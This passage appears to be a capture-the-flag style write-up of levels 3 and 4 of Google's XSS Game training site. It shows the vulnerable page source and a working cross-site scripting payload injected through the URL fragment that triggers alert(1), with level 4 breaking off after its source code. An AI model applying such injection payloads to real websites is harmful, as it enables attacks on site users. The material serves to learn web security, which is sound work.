 The application on this level is using one such hidden sink.
## Mission Objective
* Inject a script to pop up a JavaScript `alert()` in the app.  
* Since you can't enter your payload anywhere in the application, you will have to manually edit the address in the URL bar below.
## Practical
![[Pasted image 20250106231405.png]]
If we examine the source code we can see this:
```html
 <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
...SNIP...
```
Here, we see this line `"<img src='/static/level3/cloud" + num + ".jpg' />"`. As it starts the ``<img>`` script with `"`, and the `.jpg` part ends in `'`, we can escape it with this payload:
```html
https://xss-game.appspot.com/level3/frame#1"'<img src="" onerror=alert(1)>
```
And we get this:
```txt
Congratulations, you executed an alert:

1

You can now advance to the next level.
```
# 4 - Context Matters
## Mission Description
Every bit of user-supplied data must be correctly escaped for the context of the page in which it will appear. This level shows why.
## Mission Objective
* Inject a script to pop up a JavaScript `alert()` in the application.
## Practical
This is our target site:
![[Pasted image 20250107175613.png]]
With the source code, we can see this function and how it's used:
```html
   <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() { 
          window.confirm("Time is up!");
          window.history.back();
        }, seconds * 1000);
      }
    </script>
  </head>
  <body id="level4">
    <img src="/static/logos/level4.png"/>
    <br>
    <img src="/static/loading.gif" onload="startTimer('3');" />
    <br>
    <div id="message">Your timer will execute in 3 seconds.</div>
```